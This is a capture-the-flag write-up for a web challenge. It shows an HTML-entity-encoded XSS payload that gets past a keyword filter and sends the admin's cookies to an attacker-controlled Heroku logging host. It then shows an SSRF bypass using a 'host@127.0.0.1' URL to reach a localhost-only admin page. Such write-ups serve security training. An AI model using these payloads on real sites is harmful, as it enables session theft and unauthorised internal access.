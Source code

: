# Cookie World Order

## Challenge Description

![Challenge Description](img/description.png)

Upon clicking the provided link we see this page:

![Challenge Page](img/page1.png)

and looking at the link for the challenge it seems pretty clear what we need to do, there is an admin reading the same chat we see, and we must execute an XSS attack in order to get the flag, most likely from their cookies, as that is how the previous XSS challenges were implemented.

So, testing the chat function we can see that we can send messages normally, but trying to include a `<script>` tag will change our message to "HACKER ALERT!".

![Chat](img/chat.png)

So it seems like there is some basic anti-xss filtering in place. So the next thing to do was simply send messages and try and determine where the bounds are with what is filtered and what is not. After trying a few things it was obvious it's actually fairly leniant, img tags work fine, but it won't allow the `onload` property. `onerror` works just fine but it won't allow messages with the words "script" or "function" in them.

What it does allow just fine however, are messages encoded as HTML Entities, regardless of their contents. As a result, we can just write an arbitrary XSS payload, encode the whole thing as HTML Entities set it to the onerror property, and send away. To test this we can use:

```html
<img src="abc "onerror="alert(1)"/>
```
which, when encoded, looks like:
```html
<img src="abc" onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;"/>
```
and we see our alert pop up straight away!
![Alert](img/alert.png)

So now we just need a payload to grab the cookies from the targets browser and send them back to us. I have a heroku application set up for circumstances like this, which runs a simple http server which logs everything it receives. As a result, I used the following script:

```javascript
new Image().src="https://<myapp>.herokuapp.com?pagesrc="+btoa(document.cookie)
```

```html
<img src="abc" onerror="&#x6E;&#x65;&#x77;&#x20;&#x49;&#x6D;&#x61;&#x67;&#x65;&#x28;&#x29;&#x2E;&#x73;&#x72;&#x63;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x3C;&#x6D;&#x79;&#x61;&#x70;&#x70;&#x3E;&#x2E;&#x68;&#x65;&#x72;&#x6F;&#x6B;&#x75;&#x61;&#x70;&#x70;&#x2E;&#x63;&#x6F;&#x6D;&#x3F;&#x70;&#x61;&#x67;&#x65;&#x73;&#x72;&#x63;&#x3D;&#x22;&#x2B;&#x62;&#x74;&#x6F;&#x61;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x29;"/>
```


which just encodes the page cookies as base 64 and makes a request to my server as an image, the request fails, but we can see the cookies in our logs.

Decode the base 64 string and we get:

```
flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```

Which gets us our flag

# Additional Flag

There does seem to be more to this challenge, and I ended up getting a bit of a hint or I don't think I would have gotten this one all the way, so the auth cookie that we get along with the first flag actually seems to have an impact on the page. When we set this cookie in our own browser we can now see an `admin` link in the top right of the page.

![New Link](img/page2.png)

Which gives us access to an admin control panel with a few new pages.

![Admin](img/admin.png)

Unfortunately for us, both the Users and Livestreams pages are blank. However when we try to access the camera controls page, we get a 403 response with the error message:

```
Requests only accepted from 127.0.0.1
```

Which makes things a little trickier. However, if we look back at the original page, we can see the livestream is loaded as follows:

```html
<video loop="" autoplay="" muted="" src="/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm">
```

The `src` attribute there looks an awful lot like it might be vulnerable to Remote (or in this case Local) File Inclusion. So by going to the link we can try something like:
```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://127.0.0.1/admin/controls
```

However when we try that we see the following error:

![Error](img/forbidden.png)

However this actually turns out to be easy to resolve, as the parsing to check this isn't done very well, as a result we can set the username in our link to `cwo-xss.web.ctfcompetition.com` and we can fool this check right away.

Final link:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
```

And there we have it, the second flag is ours.

![flag](img/final.png)
